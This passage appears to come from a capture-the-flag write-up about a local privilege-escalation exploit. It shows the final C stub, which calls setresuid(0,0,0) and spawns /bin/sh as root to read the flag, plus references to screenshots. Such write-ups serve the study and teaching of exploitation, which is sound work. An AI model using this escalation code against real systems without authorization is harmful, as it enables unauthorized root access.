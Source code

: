 ![patch](/assets/img/posts/2025-05-02-5/patch.png)

Finally, we escalate privileges using `setreusuid` and spawn a shell:
```c
setresuid(0, 0, 0);

if (getuid() == 0) {
    puts("[+] Success");
    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
} else {
    puts("[-] Fail");
}
```
By running this exploit, we can achive root privileges and see the flag:

![win](/assets/img/posts/2025-05-02-5/win.png)
